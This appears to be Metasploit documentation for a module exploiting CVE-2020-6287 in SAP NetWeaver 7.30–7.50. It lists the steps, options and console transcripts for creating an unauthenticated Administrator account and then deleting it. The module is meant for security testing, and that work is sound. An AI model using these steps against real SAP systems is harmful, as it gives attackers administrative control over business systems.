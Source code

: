 ## Vulnerable Application

This module leverages an unauthenticated web service to submit a job which will create a user with a specified role. The
job involves running a wizard. After the necessary action is taken, the job is canceled to avoid unnecessary system
changes.

SAP NetWeaver NetWeaver versions 7.30 through 7.50 are affected by this vulnerability. An Amazon Machine Image (AMI) for
Amazon Web Services (AWS) can be used as a testing environment. One such image is provided by Linke IT America LLC and
is available on the [AWS Marketplace][1] with installation instructions posted to their [blog][2].

Once set up and configured, the instances will be vulnerable on the default HTTP port 50000.

If the password does not meet the requirements (e.g. the value is too short), the server will respond with an error
message and the Metasploit module will need to be rerun.

## Verification Steps

  1. Install the application
  1. Start msfconsole
  1. Do: `use auxiliary/admin/sap/cve_2020_6287_ws_add_user`
  1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
  1. Run the module and wait a few seconds
  1. Once the "PCK Upgrade" job has been canceled, log in with the created credentials

## Options

### ROLE

The role to assign to the user in the system. This value is "Administrator" by default. If the role does not exist, then
execution will fail. For more information on users and roles, see the [SAP documentation][3].

From the documentation:
> Standard UME roles include such actions. The UME role Administrator includes Manage_ All, which enables you to display
> and change everything. By default, administrator roles are only assigned to administrators.

## Scenarios

### SAP NetWeaver 7.50

Example: Adding a new user `metasploit` with the `Administrator` role:

```
msf5 > use auxiliary/admin/sap/cve_2020_6287_ws_add_user 
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set RHOSTS netweaver.lan
RHOSTS => netweaver.lan
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set USERNAME metasploit
USERNAME => metasploit
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set PASSWORD 0pe3nS3sam3
PASSWORD => 0pe3nS3sam3
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > check
[+] 192.168.53.183:50000 - The target is vulnerable.
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set VERBOSE true
VERBOSE => true
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > run
[*] Running module against 192.168.53.183

[*] Starting the PCK Upgrade job...
[+] Job running with session id: 3e76e705-4bbd-4a6b-b243-154768287fb0
[*] Received event description: Execution of User Management
[*] Received event description: Create User PCKUser
[+] Successfully created the user account
[*] Received event description: Assign Role SAP_XI_PCK_CONFIG to PCKUser
[+] Successfully added the role to the new user
[*] Canceling the PCK Upgrade job...
[*] Auxiliary module execution completed
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) >
```

Example: Removing the user `metasploit`:

```
msf5 > use auxiliary/admin/sap/cve_2020_6287_ws_add_user 
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set RHOSTS netweaver.lan
RHOSTS => netweaver.lan
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set USERNAME metasploit
USERNAME => metasploit
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set PASSWORD 0pe3nS3sam3
PASSWORD => 0pe3nS3sam3
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set ACTION REMOVE
ACTION => REMOVE
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > run
[*] Running module against 192.168.53.183

[+] Successfully deleted the user account
[*] Auxiliary module execution completed
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) >
```

[1]: https://aws.amazon.com/marketplace/seller-profile?id=56cbce49-5486-4a83-a6b7-0fea3841da1b
[2]: https://docs.linkeit.com/amis/catalog/sap_ready_ami_installation_guide_nw750java_susesyb/
[3]: https://help.sap.com/doc/saphelp_nw73ehp1/7.31.19/en-US/4a/6e8a7ab94e4d27e10000000a42189b/frameset.htm
